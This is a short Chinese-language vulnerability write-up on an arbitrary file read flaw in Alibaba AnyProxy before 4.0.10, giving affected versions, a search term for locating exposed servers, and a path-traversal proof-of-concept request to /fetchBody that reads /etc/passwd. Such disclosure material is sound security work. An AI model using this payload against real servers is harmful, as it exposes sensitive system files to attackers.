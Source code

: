 # Alibaba AnyProxy fetchBody 任意文件读取漏洞

## 漏洞描述

Alibaba AnyProxy 低版本存在任意文件读取，通过漏洞，攻击者可以获取服务器敏感信息

## 漏洞影响

<a-checkbox checked>Alibaba AnyProxy < 4.0.10</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"anyproxy"</a-checkbox></br>

## 漏洞复现

页面如下

![img](../../../.vuepress/public/img/image-20210718204835288.png)



验证POC为

```plain
/fetchBody?id=1/../../../../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/image-20210718204843037.png)
